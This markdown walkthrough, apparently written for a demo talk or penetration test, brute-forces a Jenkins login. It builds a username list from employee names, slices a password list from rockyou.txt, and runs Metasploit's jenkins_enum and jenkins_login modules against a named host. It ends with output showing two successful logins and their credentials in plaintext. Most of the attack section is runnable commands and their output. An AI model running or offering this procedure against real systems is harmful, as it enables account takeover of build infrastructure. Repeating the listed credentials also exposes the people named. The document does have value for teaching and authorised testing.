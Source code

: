 # Bruteforce Jenkins Login
This section aims to login to the company's Jenkins instance.
To do so, we'll prepare a list of usernames and check login with rockyou list.
Before login can be bruteforced, the login URL must be identified via BurpSuite.

## Open Questions
- how do I know the port
- how do I know the URL

## Prepare Usernamelist

```bash
mkdir -p /root/demotalk/jenkinsBrute/
cd /root/demotalk
git clone https://github.com/captain-noob/username-list-generator.git
cd username-list-generator
rm output.txt user.txt
nano user.txt
```

put the names into nano.
Dont take all names to not break too much bruteforce into
```
Kay Meyer
Robert Bartsch
Ricardo Pope
Jeffrey van der Linden
```

```bash
python3 userlistcreator.py
mv output.txt /root/demotalk/jenkinsBrute/userlist.txt
cd /root/demotalk/jenkinsBrute/
```

## Prepare Passwordlist
Let's use the end of rockyoulist as that contains the sophisticated passwords
It contains 14344392 leaked passwords
Rockyou.txt is a set of compromised passwords from the social media application developer also known as RockYou. It developed widgets for the Myspace application. In December 2009, the company experienced a data breach resulting in the exposure of more than 32 million user accounts. It was mainly because of the company’s policy of storing the passwords in cleartext.

```bash
cd /root/demotalk/jenkinsBrute/
sed -n 14342050,14342075p /usr/share/wordlists/rockyou.txt > /root/demotalk/jenkinsBrute/passwordlist.txt
```
## Enum Module
Let's get some details of Jenkins

```bash
msfconsole
use auxiliary/scanner/http/jenkins_enum
set RHOSTS jenkins.test.nevervictimconsult.xyz
set RPORT 8080
set TARGETURI /
exploit
```
We detect that theres a pretty modern version of Jenkins running.
```bash
[+] 34.159.77.191:8080    - Jenkins Version 2.387.3
[*] /script restricted (403)
[*] /view/All/newJob restricted (403)
[*] /asynchPeople/ restricted (403)
[*] /systemInfo restricted (403)
```
There are no easy-to-use exploits available for this version
```bash
searchsploit Jenkins 2.3
```
So there are at least two options left:
* attack the host
* get access to Jenkins

Getting access via Social Engineering or Passwordcracking is the first attempt.

## Login Scan Module
If we want to access Jenkins as a user, we need to find a bit more information of login options.

#### Get Login URL
There are typically two login-URLs in Jenkins-world
* /j_acegi_security_check
* j_spring_security_check
or something the Administrator configured (like PingAccess or so)

Let's use Burpsuite to find out details.

### Prepare Options
Now that we know how to login, we can use metasploit to brute force login.
The exploit must be configured.

```bash
msfconsole
use auxiliary/scanner/http/jenkins_login
set RHOSTS jenkins.test.nevervictimconsult.xyz
set RPORT 8080
set USER_FILE /root/demotalk/jenkinsBrute/userlist.txt
set PASS_FILE /root/demotalk/jenkinsBrute/passwordlist.txt
set LOGIN_URL j_spring_security_check
exploit
```
There will be two successful attempts

```bash
[+] 34.159.77.191:8080 - Login Successful: Robert.Bartsch:!@#$%1234pacr1234!@#$%
[+] 34.159.77.191:8080 - Login Successful: Jeffrey_van_d_Linden:!@#$%67890QAZwsxh
```
